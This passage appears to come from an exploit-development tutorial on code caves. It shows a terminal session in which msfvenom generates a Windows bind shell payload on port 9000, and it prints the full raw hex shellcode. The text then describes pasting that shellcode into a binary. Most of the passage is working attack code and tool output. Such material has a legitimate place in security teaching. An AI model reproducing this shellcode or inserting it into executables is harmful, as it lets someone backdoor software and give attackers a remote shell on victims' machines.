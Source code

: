The payload used will be the same as the previous, a unstaged bind shell that will display at port 9000.

Generating the payload.

```term
root@whitecr0wz:~# msfvenom -p windows/shell_bind_tcp LPORT=9000 -f hex 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 328 bytes
Final size of hex file: 656 bytes
fce8820000006089e531c0648b50308b520c8b52148b72280fb74a2631ffac3c617c022c20c1cf0d01c7e2f252578b52108b4a3c8b4c1178e34801d1518b592001d38b4918e33a498b348b01d631ffacc1cf0d01c738e075f
6037df83b7d2475e4588b582401d3668b0c4b8b581c01d38b048b01d0894424245b5b61595a51ffe05f5f5a8b12eb8d5d6833320000687773325f54684c772607ffd5b89001000029c454506829806b00ffd56a085950e2fd
4050405068ea0fdfe0ffd597680200232889e66a10565768c2db3767ffd55768b7e938ffffd5576874ec3be1ffd5579768756e4d61ffd568636d640089e357575731f66a125956e2fd66c744243c01018d442410c60044545
056565646564e565653566879cc3f86ffd589e04e5646ff306808871d60ffd5bbf0b5a25668a695bd9dffd53c067c0a80fbe07505bb4713726f6a0053ffd5
root@whitecr0wz:~# 
```

The shellcode is pasted with "Binary paste".

![](/assets/img/Code_Cave_II/13.png)

![](/assets/img/Code_Cave_II/14.png)
